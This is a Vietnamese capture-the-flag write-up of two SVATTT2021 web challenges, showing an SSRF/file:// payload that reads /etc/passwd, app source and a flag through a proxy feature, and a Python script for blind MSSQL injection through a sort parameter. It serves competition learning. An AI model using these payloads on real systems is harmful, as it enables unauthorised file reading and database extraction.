


# \[Web] SVATTT2021

.png>)

### OProxy

Link: [http://125.235.240.166:8000](http://125.235.240.166:8000)

[
\
](http://125.235.240.166:8000)

.png>)

Bài này ta nhận được 1 form login, nhiệm vụ của mình là tạo 1 account và xem xét các chức năng có sẵn, sau đó sẽ dựa vào tính năng "View website by proxy" để thực hiện việc bypass

Lúc làm bài này thì mình khá bí và tốn thời gian suy nghĩ vì không biết nên làm thế nào, sau đó nhờ 1 tiền bối gợi ý thì giải pháp làm bài này sẽ như sau:

&#x20;



* Mình sẽ thực hiện việc truyền 1 URL thông qua form này, sau đấy sử dụng BurpSuite chặn lại trước khi request được chuyển đi và thực hiện payload sau đây.
* `csrf_token=[token]&url=file%3A%2F%2F127.0.0.1%2Fapp%2Fflag.txt&submit=Go%21`

Nói rõ hơn, giai đoạn mình thực hiện fuzz như sau:

`csrf_token=[token]&url=file://127.0.0.1/etc/passwd&Submit=Go%21`



Để ý server respose header Werkzeug/1.01 Python/3.10.0, tiếp tục fuzz

`csrf_token=[token]&url=file://127.0.0.1/app/main.py&Submit=Go%21`

.png>)

`csrf_token=[token]&url=file%3A%2F%2F127.0.0.1%2Fapp%2Fflag.txt&submit=Go%21`

Flag: ASCIS{SSRF\_M3mcached\_inj3cti0n}


### script kiddie

\
Link: [http://167.172.85.253/web100/?sort=name
\
](http://167.172.85.253/web100/?sort=name)

.png>)

Đầu tiên khi vào link đề cho ta sẽ thấy thông tin hiển thị như ở dưới đây

.png>)

Đề đã cho ta những thông tin cần thiết, đầu tiên như mô tả ta có thể biết rằng web có chứa lỗ hổng SQL-injection với CSDL được dùng ở đây là MSSQL. Câu query như sau:  SELECT \* FROM … ORDER BY $sort ASC

`Giá trị của biến `$sort`  ta có thể control thông qua param  `?sort=


```
import requests
from string import printable


url = 'http://167.172.85.253/web100/'
r = requests.Session()
db = ''
index = len(db) + 1

while True:
	for c in printable:
		#print("testing for " + c)
		payload = f'(case when (ascii(substring(db_name(),{index},1))={ord(c)}) then 1 else 1/db_name() end)'
		resp = r.get(url + '?sort=' + payload)
		if "Error" not in resp.text:
			db += c
			index += 1
			print(f"Length: {len(db)} - DB_NAME: {db}")
			break  
//Code tham khảo từ https://kcsc-club.github.io/2021/10/18/svattt2021-quals/#web			
```

.png>)

Flag: `ASICS{ssalchtiwesmihcueymorf}`


